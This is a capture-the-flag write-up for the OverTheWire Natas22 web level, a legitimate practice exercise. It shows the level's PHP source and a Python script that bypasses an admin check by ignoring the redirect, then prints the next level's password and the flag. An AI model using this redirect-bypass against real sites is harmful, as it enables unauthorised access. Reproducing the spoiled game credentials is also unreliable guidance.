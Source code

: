 # CTF Writeup - **OverTheWire Natas21 - Natas22**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas21 - Natas22
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 21-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use python to find the flag using redirects blocking.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas22
Password: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz
URL:      http://natas22.natas.labs.overthewire.org
```

After logging in, we can see that the webpage doesnot show anything to us. This is not very helpful or interesting for finding any clues. Lets directly view the source code of the webpage.

```bash
<?php
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>

<?php
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

We can see that this php code checks if there is a parameter `revelio` in the request based on that it check if the requested user is `admin` or not. The non admin users are redirected to `/` instead of the actual webpage. This is interesting for us as we can take advantage of this by disallowing redirects as it doesnot not check if the requested user is admin after going to the webpage. The second piece of code again checks if the request has `revelio` in it and then prints credentials. The request should contain `revelio` in it. Lets try it send it using python as shown below.


```bash
import requests

target = 'http://natas22.natas.labs.overthewire.org?debug=true&revelio=true&admin=1'
auth = ('natas22','d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz')

session = requests.Session()

r = session.get(target, auth=auth, allow_redirects=False)
print(r.text)
```

The above script creates a session first with a request. It sends the `revelio` parameter using url and send a get request along with disabling the redirects. We wont be redirected to `/` even though we are not admin users.  The below ouput shows that we are able to get the credentials for the next level.

```bash
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>       
# <script>var wechallinfo = { "level": "natas22", "pass": "d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz" };</script></head>
# <body>
# <h1>natas22</h1>
# <div id="content">

# You are an admin. The credentials for the next level are:<br><pre>Username: natas23
# Password: dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs</pre>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>
```


## Flag

**Flag:** dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs


---

## Lessons Learned

It was a simple challenge. I didnt quite understand the php code of header(), but once i understood the concept, I was able to solve it.